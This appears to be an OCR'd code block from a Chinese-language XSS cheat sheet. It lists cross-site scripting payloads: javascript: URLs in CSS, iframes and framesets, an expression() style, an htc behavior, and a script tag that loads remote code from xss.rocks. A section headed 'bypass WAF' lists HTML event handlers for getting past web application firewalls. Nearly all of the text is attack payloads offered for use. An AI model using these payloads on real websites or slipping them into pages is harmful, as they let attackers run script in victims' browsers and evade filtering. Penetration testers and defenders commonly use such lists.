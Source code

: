 ```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
 
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
 
<XSS STYLE="behavior: url(xss.htc);">
 
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
 
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
 
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
 
<DIV STYLE="width: expression(alert('XSS'));">
 
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

**绕waf**


所有的事件，来自菜鸟教程。

onclick  
oncontextmenu  
ondblclick  
onmousedown  
onmouseenter  
onmouseleave  
onmousemove  
onmouseover  
onmouseout  
onmouseup
onkeydown
onkeypress
onkeyup
onabort
onbeforeunload
onerror
onhashchange  
onload
onpageshow
onpagehide
onresize  
onscroll  
onunload  
onblur  
onchange  
onfocus  
onfocusin  
onfocusout
oninput  
onreset
onsearch
onselect
onsubmit
oncopy  
oncut  
onpaste
onafterprint  
onbeforeprint  
ondrag
ondragend  
ondragenter
ondragleave
```
